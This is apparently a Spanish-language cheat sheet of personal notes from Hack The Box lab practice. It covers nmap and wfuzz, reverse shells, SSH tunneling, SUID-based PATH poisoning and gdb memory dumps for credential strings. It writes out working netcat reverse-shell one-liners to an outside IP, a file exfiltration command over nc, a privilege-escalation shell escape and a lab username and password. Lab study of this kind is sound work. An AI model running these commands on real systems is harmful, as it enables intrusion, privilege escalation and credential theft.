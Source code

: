 # Aprendiendo de Hackthebox.com

- sitios: 
    - https://brainful.blog/2022/01/19/enumeration-2/

- sitios wordlist: 
    - sub dominios: 
        - https://github.com/theMiddleBlue/DNSenum/blob/master/wordlist/subdomains-top1mil-20000.txt

- usando nmap
    - `-sU` scanear puertos UDP
    - `-p80` escanear puerto 80, `-p-` escanear todos los puertos
    - `-sS` tcp syn ping
    - `-v` verbose
    - `-Pn` skip ping
    - `-A` agressive mode, muestra info mas detallada. *tratar de usar solo con los puertos descubiertos.*

- Web Fuzzer (*remplazo de palabras en el url*)
    - `wfuzz -c -z range,1-10 http://www.sitio.com/FUZZ` la palabra **FUZZ** seria remplazada por numeros del 1 al 10.
    - `wfuzz -c -z file,palabras.txt http://www.sitio.com/FUZZ` palabra **FUZZ** seria remplazada por las palabras dentro del archivo.
    - con la opcion `--sc` fitramoslos resultados, p.e. `--sc 200` solo muestra los resultados con *200 OK.f* 
    - `-c` muestra la salida con colores
    - `-w palabras.txt` lo mismo q usar file,palabras.txt
    - `-L` seguir redirecciones.
    - `-H` header p.e. `-H "Host: FUZZ.sitio.htb"

- Reverse shell
    - si se puede subir archivos al sitio se usa un [simple webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)
    - [reverse shell cheatsheet](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/).
    - `nc -e /bin/sh 10.0.0.1 1234`
    - si `nc` no soporte la opcion `-e`: 
        - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
    - si se conecta usamos:
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'`

    - si usamos `sudo -l` y no funciona usamos:
        - [GTFObins](https://gtfobins.github.io/gtfobins/at/) `echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`

    - bajar un archivo con `nc`:
        - en nuestra pc con ip 10.10.14.81: `nc -nvlp 10.10.14.81 4444 > file`
        - en el pc remoto: `nc 10.10.14.81 4444 < file`

- SSH tunneling
    - ssh -D1234 user@10.10.11.136
    - bajamos el `foxyproxy` y configuramos:
        - proxy type: SOCKS5
        - Proxy IP: 127.0.0.1
        - Port: 1234
        - Send DNS through SOCKS5 proxy: enable
    - para aplicaciones de linea de comandos usamos `proxychains`
        - editamos nano /etc/proxychains.conf
        - opcion: strict_chain
        - socks5 127.0.0.1 1234 daniel HotelBabylon23

- [Buscar archivos SUID](https://blog.certcube.com/suid-executables-linux-privilege-escalation/) (permisos: rws) para usar el path poison:
    - `find / -user root -perm -4000 -print 2>/dev/null`
    - `find / -perm -u=s -type f 2>/dev/null`
    - `find / -user root -perm -4000 -exec ls -ldb {} \;`
    - [path poisoning](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93) : 
        - `export PATH=/tmp:$PATH`
        - en /tmp suplantamos el nombe de un commando asi cuando
        se llame a ese comando ejecutara el commando en /tmp.


- Dump memory
    - `gdb -p <FTP_PROCESS_PID>`
    - `(gdb) info proc mappings`
    - `(gdb) q`
    - `(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>`
    - `(gdb) q`
    - `strings /tmp/mem_ftp #User and password` <- buscar strings



